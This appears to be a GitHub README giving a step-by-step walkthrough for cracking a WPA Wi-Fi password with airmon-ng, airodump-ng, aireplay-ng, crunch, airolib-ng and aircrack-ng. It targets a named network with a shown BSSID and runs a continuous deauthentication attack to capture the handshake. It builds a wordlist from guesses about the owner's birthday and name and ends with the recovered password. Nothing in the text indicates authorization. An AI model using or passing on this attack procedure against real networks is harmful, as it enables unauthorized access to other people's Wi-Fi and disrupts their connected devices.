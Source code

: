## Example crack wpa attack speed with airolib-ng, aircrack-ng

i use tp-link wn725n and on parrotOS, the name of it is ridiculous

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/166419875-330952f9-ce4a-416d-b403-ec2d39ecc3dc.png)

```
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166419967-2d8d1bd2-eb49-40b7-b46f-cf52497eba4b.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420371-20c0ce94-e653-4cda-b87b-72f071d94a49.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420867-1c3d3d5a-5c26-4f67-b271-84f9a19c81d0.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/166444763-a0cb15e0-309f-430e-bc6d-ce92e7863f0e.png)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

crack speed is about 20 GB/s

![image](https://user-images.githubusercontent.com/90561566/166604633-ee3faa85-3062-4374-8ae2-c21dc838f1e9.png)

done! there is the password

![image](https://user-images.githubusercontent.com/90561566/166604265-0cbf138a-c7bb-4bbc-af23-da89aeb94b50.png)











